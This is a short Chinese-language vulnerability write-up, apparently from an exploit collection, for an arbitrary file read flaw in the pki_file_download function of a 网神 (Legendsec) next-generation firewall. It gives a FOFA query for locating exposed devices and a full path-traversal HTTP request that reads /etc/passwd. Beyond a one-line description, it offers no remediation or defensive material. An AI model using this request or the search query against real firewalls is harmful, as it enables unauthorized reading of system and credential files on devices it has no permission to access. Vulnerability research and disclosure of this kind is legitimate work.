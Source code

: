 # 网神 下一代极速防火墙 pki_file_download 任意文件读取漏洞

## 漏洞描述

网神下一代极速防火墙 pki_file_download 存在任意文件读取漏洞，攻击者可以通过漏洞获取服务器上的任意文件

## 漏洞影响

```
网神下一代极速防火墙
```

## FOFA

```
app="网神下一代极速防火墙"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162229226.png)

发送请求包

```plain
GET /?g=pki_file_download&filename=../../../../../etc/passwd HTTP/1.1
Host: 
Connection: close
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __s_sessionid__=7rl7vvg1mlc00gf4pfmo74h0t7
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162229183.png)



